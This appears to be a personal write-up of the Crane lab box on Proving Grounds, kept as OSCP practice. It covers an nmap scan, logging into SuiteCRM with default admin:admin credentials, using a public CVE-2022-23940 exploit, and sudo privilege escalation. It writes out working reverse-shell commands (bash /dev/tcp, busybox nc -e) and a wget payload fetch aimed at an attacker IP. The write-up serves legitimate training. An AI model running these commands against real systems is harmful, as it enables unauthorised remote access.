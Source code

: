 ```yaml
---
layout: writeup
title: Crane - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Crane Box from Proving Grounds
image: # /assets/images/Crane/Crane_5.png
fig-caption: # Add figcaption (optional)
tags: [Linux, TJ Null]
---
```



Here is a writeup for the Crane lab on [Proving Grounds](https://www.offsec.com/labs/), another box from TJ Null's OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). I start out with an nmap scan and check out port 80 as soon as it pops up. 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.38 (Debian)
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![[Crane_5.png]](/assets/images/Crane/Crane_5.png){: .center-aligned width="600px"}

Looks like we have a web app entitled SuiteCRM. I check the source for a version and run a gobuster scan, but it also turns out I can log into using admin:admin. This might come in handy because I see some authenticated exploits on exploit-db. 

It looks like this one actually has admin:admin hardcoded. Maybe I can check authenticated exploits for clues like that in the future. We'll download it and change the URL.

![Crane_4.png](/assets/images/Crane/Crane_4.png){: .center-aligned width="600px"}

I can't get this one working, but I look around on Google, and I find another one here: https://github.com/manuelz120/CVE-2022-23940. 

After cloning the repo I run this command: `python3 exploit.py -h http://192.168.162.146/index.php -u admin -p admin -P 'wget http://192.168.45.154/shell8080.sh'` and the file is downloaded. That means we have execution at least. Unfortunately I can't get the shell to execute, or at least I can't get the reverse shell.  I make a note to retry with different shells and ports and from different directories. It makes sense to start with ports first, but I try with 80, 8080, 443, and 3306 (because there is a SQL server running) using a simpler shell (`/bin/bash -i >& /dev/tcp/192.168.45.154/80 0>&1`). Nothing on that unfortunately. 

I try a few other reverse shells and can't seem to get them working on any port, until I try this one: `busybox nc 192.168.45.154 80 -e /bin/bash`. The full command is  `python3 exploit.py -h http://192.168.162.146/index.php -u admin -p admin -P 'busybox nc 192.168.45.154 80 -e /bin/bash'`. I'm not sure I've used this one much, but I noticed in someone else's OSCP notes as a notably good one. Maybe I need to try it more, but I did get a shell with it as www-data. 

I download and run `linpeas.sh` to scope the machine out. The /usr/sbin/service binary immediately jumps out while I'm scrolling through the linpeas output. 

![Crane_3.png](/assets/images/Crane/Crane_3.png){: .center-aligned width="600px"}

Then I notice I can run it using sudo. That's a good sign. 

![Crane_2.png](/assets/images/Crane/Crane_2.png){: .center-aligned width="600px"}

Bingo. 

![Crane_1.png](/assets/images/Crane/Crane_1.png){: .center-aligned width="600px"}

What did we learn on this box? Don't give up if a few shells don't work, and spend some more time with that busybox one in particular. Oh - and try admin:admin when logging into a service. Note that there is a local.txt file in the /var/www/html directory. I missed that when I got the initial shell. 


